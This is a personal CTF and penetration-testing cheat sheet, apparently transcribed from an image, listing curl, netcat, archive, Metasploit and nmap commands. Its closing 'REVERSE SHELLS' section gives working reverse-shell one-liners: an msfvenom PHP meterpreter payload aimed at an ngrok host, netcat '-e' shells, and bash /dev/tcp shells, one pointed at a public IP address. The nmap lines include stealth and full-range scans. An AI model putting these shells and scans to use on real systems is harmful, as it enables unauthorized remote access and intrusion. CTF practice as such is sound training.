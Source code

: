 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
         curl -H "Cookie:PHPSESSID=0j7vimrdobha0uo1s9hev5vh01" 'https://ringzer0ctf.com/challenges/212' => Passing custom headers with curl
         curl -X PUT -H "Cookie:PHPSESSID=0j7vimrdobha0uo1s9hev5vh01" 'https://ringzer0ctf.com/challenges/48'

         nc -v ip port or telnet ip 22 - gives the ssh banner of pc



        COMPRESSION AND ARCHIVING

        https://www.systutorials.com/docs/linux/man/1-compress/
        - zip -r outfile.zip file1 folder1 - Archiving files in a zip file format
        - tar -xf file03.tar.gz
        - bunzip2 -dfv file02
        - xz --decompress data.xz
        - gzip -d file02.gz
        - unxz data.xz (best) => result is data

        for compress'd data 16 bits
        cp file newfile.gz && uncompress newfile.gz


        - disposable email https://www.mailinator.com


    METASPLOIT
    ----------
        - db_rebuild_cache //fix slow searching
        - sessions -u 1 //Upgrades shell to metepreter session

     NMAP
     ----
        nmap -Pn ip => use with windows machines
        nmap -sV --script=banner/vuln ip   - (V checks for the service version)
        nmap -sT ip    - (T =tcp connection which has complete 3 way handshake) - Helps confirm the host/port is open
        nmap -sS ip    - (Does not complete the three way handshake hence is slightly stealthy)
        nmap -Pn iprange   - (This does a ping scan of the whole network)
        nmap -sT -p 80,433 ip  - (Scans only for the specified ports in the network)
        nmap -p- -T4 --max-retries 1 -Pn ip -vvv
        nmap -sV -sC -p- -v -oN output.txt ip/24
        nmap -sV -sC -p- -v ip/24 --min-rate 5000
        nmap -p- -T4 --max-retries 1 -Pn ip -vvv
        rustscan -a ip




     REVERSE SHELLS
     --------------

        msfvenom -p php/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=10551 -e php/base64 R > mytools/phpbase64shell.php
         netcat =  nc 127.0.0.1 4444 –e /bin/bash
                    nc.exe 192.168.100.113 4444 –e cmd.exe
         bash = bash -i >& /dev/tcp/$ip/$port 0>&1
                bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
         bash = bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1' (best)

         

         bash -c 'bash -i >& /dev/tcp/3.136.65.236/6090 0>&1'
```